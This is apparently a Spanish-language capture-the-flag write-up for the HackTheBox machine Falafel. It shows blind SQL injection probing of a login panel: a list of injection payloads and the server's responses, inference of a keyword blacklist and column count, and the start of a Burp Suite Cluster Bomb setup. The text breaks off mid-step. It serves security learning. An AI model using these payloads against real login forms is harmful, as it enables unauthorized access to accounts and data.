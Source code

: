 ## Vulnerability Assessment {-}

### Blind SQL Injection {-}

Como no podemos utilizar el `upload.php` solo nos queda que intentar cosas con el panel de login.
Como sabemos que el usuario **admin** existe, probamos cosas como:

- admin:test -> Wrong identification: admin
- admin':test -> Try Again
- admin' and sleep(5)-- -:tes -> Hacking attempt detected
- ():test -> Try Again
- sleep:test -> Hacking attempt detected
- admin' order by 100-- -:test -> Try Again
- admin' order by 3-- -:test -> Wrong identification: admin
- admin' order by 4-- -:test -> Wrong identification: admin
- admin' order by 5-- -:test -> Try Again
- admin' union select 1,2,3,4-- -:test -> Hacking attempt detected
- select:test -> Try Again
- union:test -> Hacking attempt detected
- dsafdasdfuniondasfasdf:test -> Hacking attempt detected

Estas pruebas nos dan, como informacion, que el panel de login parece ser vulnerable a SQLI, que palabras como union o sleep estan black listeadas y 
que la respuesta de la llamada SQL tiene 4 columnas. Vamos a validar la respuesta de la web en caso de un error y en caso de una buena formula.

- admin' and substring(username,1,1)='a'-- -:test -> Wrong identification: admin
- admin' and substring(username,1,1)='b'-- -:test -> Try Again
- admin' and substring(username,2,1)='d'-- -:test -> Wrong identification: admin
- admin' and substring(username,2,1)='w'-- -:test -> Try Again

Aqui ya vemos que typo de ataque podriamos hacer y tito s4vitar nos quiere enseñarnos como hacer un ataque de typo Cluster Bomb con BurpSuite aunque tiraremos de
un script en python que es mucho mas agil.

#### Cluster Bomb attack con BurpSuite {-}

1. Interceptamos y modificamos la SQLI desde BurpSuite

    ```{r, echo = FALSE, fig.cap="Burp sqli interception", out.width="90%"}
        knitr::include_graphics("images/Falafel-SQLI-intercept.png")
    ```

1. Con Ctrl+i lo enviamos al intruder
1. En el nodo Positions damos al boton `clear §` y selectionamos:
    
    - el primer 1 y le damos al boton `add §`
    - la letra a y le damos al boton `add §`
    - cambiamos el attack type para que valga `Cluster Bomb`

    ```{r, echo = FALSE, fig.cap="Burp Cluster Bomb config", out.width="90%"}
        knitr::include_graphics("images/Falafel-ClusterBomb-config-payload.png")
    ```

1. En el nodo Payloads, seleccionamos el Payload set numero 1
   